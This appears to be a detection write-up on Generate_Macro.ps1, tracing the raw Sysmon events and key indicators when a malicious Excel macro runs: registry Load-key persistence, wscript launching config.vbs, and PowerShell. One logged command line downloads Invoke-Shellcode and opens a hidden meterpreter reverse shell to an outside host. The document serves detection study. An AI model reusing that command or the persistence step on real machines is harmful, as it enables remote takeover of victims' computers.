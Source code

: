 # Generate_Macro.ps1 

## Goal 
This write-up will focus on capturing techniques and the raw events by leveraging Generate_Macro (Credit to @enigma0x3) for study purpose. Generate-Macro will pack the payload into office macro and produce a xls file. For the payload options, it offers 4 options which are:

1. Meterpreter Shell with Logon Persistence
2. Meterpreter Shell with Powershell Profile Persistence (Requires user to be local admin)
3. Meterpreter Shell with Alternate Data Stream Persistence
4. Meterpreter Shell with Scheduled Task Persistence

Once the victim open the malicious xls, the vbs with callback payload will be created at C:\Users\Public\config.vbs (default path). And by modifying the registry to maintain the persistency.

## Caveat
This write-up will only focus on techniques used by Generate_Macro, please bare me to exclude other techniques outside this tool. 

## Logging environment
* Splunk with Sysmon TA 

## Technical Context
### Case 1
#### Payload Generation
* Payload was generate with option #1. Meterpreter Shell with Logon Persistence
#### Attack Begin
1. User open the malicious excel file and autorun the macro  
The behavior of a user openin an excel file is too generic. Nothing had captured for this write-up.

2. Persistent by Modify registry(T1112)  
This macro will first modify the registry to maintain the persistency.  

##### Raw Sysmon Event
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385f-c22a-43e0-bf4c-06f5698ffbd9}'/><EventID>13</EventID><Version>2</Version><Level>4</Level><Task>13</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-11-23T15:40:52.8285083Z'/><EventRecordID>13517</EventRecordID><Correlation/><Execution ProcessID='2944' ThreadID='3680'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>DESKTOP-DS6SIME</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>T1060</Data><Data Name='EventType'>SetValue</Data><Data Name='UtcTime'>2020-11-23 15:40:52.811</Data><Data Name='ProcessGuid'>{f2b94391-d804-5fbb-b30a-000000000500}</Data><Data Name='ProcessId'>5884</Data><Data Name='Image'>C:\Program Files (x86)\Microsoft Office\Root\Office16\EXCEL.EXE</Data><Data Name='TargetObject'>HKU\S-1-5-21-2242309504-3943410855-4141223597-1001\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\Load</Data><Data Name='Details'>C:\Users\Public\config.vbs</Data></EventData></Event>
```

##### Key Indicator

| Field               | Value                                                                                                        | Comments |
| ------------------- | ------------------------------------------------------------------------------------------------------------ | -------- |
| EventID             | 13                                                                                                           |          |
| process_name        | EXCEL.EXE                                                                                                    |          |
| process_id          | 5884                                                                                                         |          |
| registry_path       | HKU\S-1-5-21-2242309504-3943410855-4141223597-1001\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\Load |          |
| registry_value_name | C:\Users\Public\config.vbs                                                                                   |          |

3. payload execution - wscript
##### Raw Sysmon Event

```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385f-c22a-43e0-bf4c-06f5698ffbd9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-11-23T15:40:52.8463770Z'/><EventRecordID>13519</EventRecordID><Correlation/><Execution ProcessID='2944' ThreadID='3680'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>DESKTOP-DS6SIME</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-11-23 15:40:52.830</Data><Data Name='ProcessGuid'>{f2b94391-d804-5fbb-b70a-000000000500}</Data><Data Name='ProcessId'>9140</Data><Data Name='Image'>C:\Windows\SysWOW64\wscript.exe</Data><Data Name='FileVersion'>5.812.10240.16384</Data><Data Name='Description'>Microsoft ® Windows Based Script Host</Data><Data Name='Product'>Microsoft ® Windows Script Host</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>wscript.exe</Data><Data Name='CommandLine'>wscript C:\Users\Public\config.vbs</Data><Data Name='CurrentDirectory'>C:\Users\victim\Documents\</Data><Data Name='User'>DESKTOP-DS6SIME\victim</Data><Data Name='LogonGuid'>{f2b94391-ac21-5fbb-5e81-010000000000}</Data><Data Name='LogonId'>0x1815e</Data><Data Name='TerminalSessionId'>1</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=4D780D8F77047EE1C65F747D9F63A1FE,SHA256=391D47D21304F8F97254A6537AA65476609FC222AD0AD86E7008419D61735A9C,IMPHASH=3602F3C025378F418F804C5D183603FE</Data><Data Name='ParentProcessGuid'>{f2b94391-d804-5fbb-b30a-000000000500}</Data><Data Name='ParentProcessId'>5884</Data><Data Name='ParentImage'>C:\Program Files (x86)\Microsoft Office\root\Office16\EXCEL.EXE</Data><Data Name='ParentCommandLine'>"C:\Program Files (x86)\Microsoft Office\Root\Office16\EXCEL.EXE" "C:\Users\victim\Desktop\cv.xls"</Data></EventData></Event>
```

##### Key Indicator

| Field             | Value                                                                                              | Comments |
| ----------------- | -------------------------------------------------------------------------------------------------- | -------- |
| EventID           | 1                                                                                                  |          |
| cmdline           | wscript C:\Users\Public\config.vbs                                                                 |          |
| process_name      | wscript.exe                                                                                        |          |
| parent_process    | "C:\Program Files (x86)\Microsoft Office\Root\Office16\EXCEL.EXE" "C:\Users\victim\Desktop\cv.xls" |          |
| process_id        | 9140                                                                                               |          |
| parent_process_id | 5884                                                                                               |          |

4. payload execution - powershell
##### Raw Event
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385f-c22a-43e0-bf4c-06f5698ffbd9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-11-23T15:40:53.1141176Z'/><EventRecordID>13521</EventRecordID><Correlation/><Execution ProcessID='2944' ThreadID='3680'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>DESKTOP-DS6SIME</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-11-23 15:40:53.091</Data><Data Name='ProcessGuid'>{f2b94391-d805-5fbb-b80a-000000000500}</Data><Data Name='ProcessId'>5680</Data><Data Name='Image'>C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='FileVersion'>10.0.19041.1 (WinBuild.160101.0800)</Data><Data Name='Description'>Windows PowerShell</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>PowerShell.EXE</Data><Data Name='CommandLine'>"C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle Hidden -nop -noexit -c IEX ((New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1')); Invoke-Shellcode -Payload windows/meterpreter/reverse_http -Lhost 192.168.254.44 -Lport 8443 -Force</Data><Data Name='CurrentDirectory'>C:\Users\victim\Documents\</Data><Data Name='User'>DESKTOP-DS6SIME\victim</Data><Data Name='LogonGuid'>{f2b94391-ac21-5fbb-5e81-010000000000}</Data><Data Name='LogonId'>0x1815e</Data><Data Name='TerminalSessionId'>1</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=5B16D54F2AE6B74DCF863BC0F5E502B5,SHA256=FCC434CC413E969DE19D329CA4E15CA567DA5DAA1F7E265D96EAF6E3D9D8B2CB,IMPHASH=194427A488ED1DD0A91731658B071667</Data><Data Name='ParentProcessGuid'>{f2b94391-d804-5fbb-b70a-000000000500}</Data><Data Name='ParentProcessId'>9140</Data><Data Name='ParentImage'>C:\Windows\SysWOW64\wscript.exe</Data><Data Name='ParentCommandLine'>wscript C:\Users\Public\config.vbs</Data></EventData></Event>
```

##### Key Indicator

| Field             | Value          | Comments |
| ----------------- | -------------- | -------- |
| EventID           | 1              |          |
| process_exec      | powershell.exe |          |
| process_id|5680||
| parent_process_id | 9140           |          |
|cmdline|"C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle Hidden -nop -noexit -c IEX ((New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1')); Invoke-Shellcode -Payload windows/meterpreter/reverse_http -Lhost 192.168.254.44 -Lport 443 -Force||

## Reference
<https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1>

## Credit
@enigma0x3 - Author of Generate_Macro.ps1

## Declaimer 
!This is for study purpose only!
